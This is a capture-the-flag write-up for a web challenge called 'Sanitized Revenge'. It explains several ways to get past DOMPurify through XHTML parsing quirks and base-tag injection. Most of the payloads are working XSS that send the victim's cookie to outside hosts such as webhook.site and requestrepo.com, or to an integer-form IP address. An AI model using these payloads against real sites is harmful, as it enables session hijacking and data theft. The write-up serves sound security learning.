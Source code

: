 # Sanitized Revenge

* Category: Web
* Score: 499/500
* Solves: 3

## Description

You are not going to find a DOMPurify 0day right?

There is an unintended solution that made the previous one much easier than the intended solution. If you solved the previous one using the intended, this is a free flag for you.

## Solution

Same as the [previous one](../Sanitized/README.md), but the revenge version only allow you to submit a single `html` parameter to the bot instead of a whole url path. So it is necessary to put the url you want to send the flag to inside the html.

```html
<div><div id="url">https://webhook.site/65c71cbd-c78a-4467-8a5f-0a3add03e750?</div><style><![CDATA[</style><div data-x="]]></style><iframe name='Page' /><base href='/**/+location.assign(document.all.url.textContent+document.cookie)//' /><style><!--"></div><style>--></style></div>
```

## Other Solutions

### IcesFont @ idek

```html
<body>
<style>a { color: <!--}</style>
<img alt="--></style><base href='/(document.location=/http:/.source.concat(String.fromCharCode(47)).concat(String.fromCharCode(47)).concat(/cb6c5dql.requestrepo.com/.source).concat(String.fromCharCode(47)).concat(document.cookie));var[Page]=[1]//x/' />">
</body>
```

HTML comment inside script tag is ignored by HTML parser, but XHTML follows XML so `<!--` will be interpreted as comment, which ends at the `-->` in the `alt` attribute of the `img` tag. The `var[Page]=[1];` uses `var` [hoisting](https://developer.mozilla.org/en-US/docs/Glossary/Hoisting) to prevent the js from throwing error.

### Giotino @ TeamItaly

```html
a<style><ø:base id="giotino" xmlns:ø="http://www.w3.org/1999/xhtml" href="/**/=1;alert(document.cookie);//" /></style>
```

> This is not the same as the original payload, as it has been simplified and cleared up by me.

The reason for that non ASCII character is because DOMPurify have a [mXSS protection](https://github.com/cure53/DOMPurify/blob/main/src/purify.js#L1004-L1014), which attempts to find a HTML tag-like string using a regex `<[/\w]` when it encounters elemenet that is no supposed to have children. (e.g. `style`)

I know this sounds like a flaw in DOMPurify, but it actaully isn't. This is because HTML standard declares that [HTML tag name must be ASCII alphanumerics](https://html.spec.whatwg.org/multipage/syntax.html#syntax-tag-name), so the a standard-complaiant HTML parser [should only consume ASCII alphanumerics when parsing start tags](https://html.spec.whatwg.org/multipage/syntax.html#start-tags). This means there is no flaw in DOMPurify when used with HTML. On the other hand, XML allows [a lot of characters](https://www.w3.org/TR/xml/#NT-NameStartChar) to be a valid tag name, and so is XHTML.

### ??? @ FlagMotori

```html
ff<style><!--</style><a id="--><base href='/**/;var/**/Page;window.name=document.cookie;document.location.host=IPV4_ADDRESS_IN_INTEGER_FORM_REDACTED//'></base><!--"></a><style>&lt;k</style><style>--></style>
```

The explanation for this is left as an exercise to the reader. :)
